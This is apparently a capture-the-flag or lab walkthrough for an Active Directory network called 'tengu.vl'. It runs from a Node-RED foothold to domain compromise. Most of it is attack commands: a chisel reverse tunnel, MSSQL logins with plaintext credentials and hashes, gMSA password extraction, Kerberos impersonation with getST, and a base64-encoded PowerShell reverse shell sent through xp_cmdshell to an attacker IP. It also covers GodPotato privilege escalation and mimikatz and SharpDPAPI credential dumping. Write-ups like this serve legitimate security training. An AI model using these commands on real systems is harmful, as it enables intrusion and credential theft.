# Enumeration 

Found Node-red on one of the 3 machines and created a node to get reverse shell and got ssh access.

Now enumerating Node-red found creds for MSSQLwhich contains some credential files

We can find this in the files:

Now we need to decrypt this password:
https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/
Running it now:
`./cred_decode.sh .`
./cred_decode.sh .

Now checking access to mssql from this machine:

Now we can port forward with chisel
Target:
`./chisel client 10.8.1.208:8001 R:socks`
Attacker:
`chisel server --reverse --socks5 -p 8001`


Now using proxychains with mssqlclient:
```
proxychains mssqlclient.py nodered_connector:'DreamPuppyOverall25'@10.10.135.166
```

Now enumerating database DemoS
And using crackstation we get the password

Now checking linux for the realm we can switch to domain user and get flag:


Now using KeyTabExtract on `/etc/krb5.keytab` 


Using bloodhound:

We can get gmsa password with 
```
proxychains nxc ldap tengu.vl -u NODERED$ -H d4210ee2db0c03aa3611c9ef8a4dbf49 --gmsa
```



Now we can use this to impersonate users in the `SQL)ADMINS` group


There's 2 users in the group:


Trying `T1_C.FOWLER`
```
proxychains -q getST.py -spn 'MSSQLSvc/SQL.tengu.vl:1433' -dc-ip dc.tengu.vl -impersonate 'T1_C.FOWLER' -hashes :bd1811a45423dcdd470df09ed1621b97 'tengu.vl/gmsa01'
```

Not allowed

Now trying `t1_m.winters` we get a ticket.

To login to mssql:
```
proxychains -q mssqlclient.py SQL.tengu.vl -k -no-pass
```

Now we can get reverse shell with:
```
xp_cmdshell "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOAAuADEALgAyADAAOAAiACwAOQAwADAANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```


Now we can use Godpotato as we have SeImpersonate permission:


Now using mimikatz:
```
Invoke-Mimikatz -Command '"lsadump::sam"'
```


Now using [[SharpDPAPI]] we can get credentials 

Using these credentials with netexec we get `STATUS_ACCOUNT_RESTRICTION`

We can use kerkeros authentication:
```
proxychains kinit T0_c.fowler
```

Then use 
```
proxychains -q evil-winrm -i dc.tengu.vl -r TENGU.VL
```